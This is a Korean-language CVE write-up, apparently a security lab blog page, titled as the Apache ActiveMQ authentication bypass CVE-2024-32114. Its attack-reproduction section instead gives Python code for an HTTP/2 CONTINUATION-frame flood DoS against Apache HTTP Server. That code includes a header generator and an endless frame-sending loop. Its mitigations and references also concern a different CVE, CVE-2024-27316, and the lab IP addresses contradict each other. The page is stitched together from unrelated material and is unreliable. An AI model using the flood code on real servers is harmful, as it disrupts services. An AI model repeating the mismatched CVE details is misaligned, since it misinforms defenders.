

# cve-2024-32114
{: .no_toc }

Apache ActiveMQ 인증 우회 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
API 웹 컨텍스트(Jolokia JMX REST API 및 Message REST API)가 인증 없이 접근 가능하도록 되어 있어, 원격 공격자가 권한을 상승시키거나 민감한 정보를 탈취할 수 있는 취약점

{: .note-title }
> **Jolokia JMX REST API**는 JMX (Java Management Extensions) MBeans를 HTTP/HTTPS를 통해 RESTful 방식으로 외부에 노출합니다. 이를 통해 외부 클라이언트는 JMX를 통해 제공되는 다양한 관리 기능과 모니터링 데이터를 접근하고 사용할 수 있게 됩니다. 

## 1.2 취약 대상
Apache ActiveMQ 버전 6.1.2 이전

## 1.3 공격 원리
- Apache ActiveMQ 6.1.1 버전의 기본 설정에서 인증 없는 API 접근
- 공격자는 인증이 필요하지 않은 API 엔드포인트를 식별한 후, 악의적인 페이로드를 생성하여 시스템에 전송
- 취약한 API를 통해 시스템 내에서 권한을 상승시키거나 민감한 정보를 탈취


---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows10 (IP: 192.168.9.1) <br>

ActiveMQ v6.1.1 설치 및 http2 프로토콜 사용 설정
- download : https://activemq.apache.org/components/classic/download/
- 

```bash
## Java 설치, 환경 변수 설정
sudo apt install openjdk-11-jdk
java -version

vi ~/.bashrc 
## 최하단에 추가
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64
export PATH=${PATH}:${JAVA_HOME}/bin

source ~/.bashrc
echo $JAVA_HOME

## ActiveMQ v6.1.1 설치
cd /usr/local/src
wget https://archive.apache.org/dist/activemq/6.1.1/apache-activemq-6.1.1-bin.tar.gz
tar -xvf  apache-activemq-6.1.1-bin.tar.gz

mkdir /opt/activemq
sudo mv /usr/local/src/apache-activemq-6.1.1/* /opt/activemq

## ActiveMQ 사용 계정 생성 및 /opt 접근을 위한 권한 추가
sudo addgroup --quiet --system activemq
sudo adduser --quiet --system --ingroup activemq --no-create-home --disabled-password activemq
sudo chown -R activemq:activemq /opt/activemq

## 외부 접속을 위한 jetty.xml 수정 (/opt/activemq/conf/jetty.xml)
    <bean id="jettyPort" class="org.apache.activemq.web.WebConsolePort" init-method="start">
             <!-- 127.0.0.1 에서 0.0.0.0 으로 변경 -->
        <property name="host" value="0.0.0.0"/>
        <property name="port" value="8161"/>
    </bean>

## ActiveMQ Service 설정
sudo vi /etc/systemd/system/activemq.service

## 추가
[Unit]
Description=Apache ActiveMQ
After=network.target

[Service]
Type=forking
ExecStart=/opt/activemq/bin/activemq start
ExecStop=/opt/activemq/bin/activemq stop
User=activemq
Group=activemq
Restart=on-failure

[Install]
WantedBy=multi-user.target

## Daemon 재시작
sudo systemctl daemon-reload
sudo systemctl start activemq

## 접속 확인
http://192.168.56.1:8161/admin
```

<br>구현 된 홈페이지 (192.168.56.1:8161/admin)


---

## 1.5 공격 재현
Python Version : 3.12.3 <br>
Module : hpack, threading, hyperframe, socket, ssl, multiprocessing <br>
Code : ↓ (주요 함수 설명)

### import 추가 
{: .no_toc }

```py
from hpack import Encoder
import threading
from hyperframe.frame import HeadersFrame, ContinuationFrame, SettingsFrame, WindowUpdateFrame
import socket
import ssl
from multiprocessing import Process, current_process
```

### hpack을 사용하여 header 크기 압축 
{: .no_toc }

```py
def hpack_header(i):
    encoder = Encoder()
    name = f'ssssssssssssssssssssshhhhhhhhhhhhhhhhhhhhhhhwwwwwwwwwwwwwwwwwshwshwssssssssshhhhhhhhhhhwwwwwwwwwwww{i}'
    value = f'03310331033198989803319898033198980331998980331033103310331989898033198980331989803319989803319898{i}'
    headers = [(name, value)]
    encoded_headers = encoder.encode(headers)
    return encoded_headers
```

### HTTP/2 프레임 반복 생성 후 전송
{: .no_toc }

```py
    i = 0
    while True:
        continuation_frame = ContinuationFrame(1)
        continuation_frame.data = hpack_header(i)
        continuation_frame.flags.add('END_HEADERS')
        sock.sendall(continuation_frame.serialize())
        i += 1
```

---

## 1.6 Apache 서버 DoS 공격 전후 시스템 상태 분석
Apache2 시스템 상태 모니터링

---

## 1.7 대응 방안
- Apache HTTP Server 버전 2.4.59 이상으로 업데이트
- nghttp2 라이브러리의 메모리 관리 로직 개선
- HTTP/2 프로토콜을 비활성화

--- 

## 1.8 참고 자료
- <a href="https://github.com/aeyesec/CVE-2024-27316_poc" target="_blank">PoC - Apache</a> <br>
- <a href="https://github.com/lockness-Ko/CVE-2024-27316" target="_blank">PoC - DoS</a>

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-32114
[Apache]: https://activemq.apache.org/security-advisories.data/CVE-2024-32114-announcement.txt

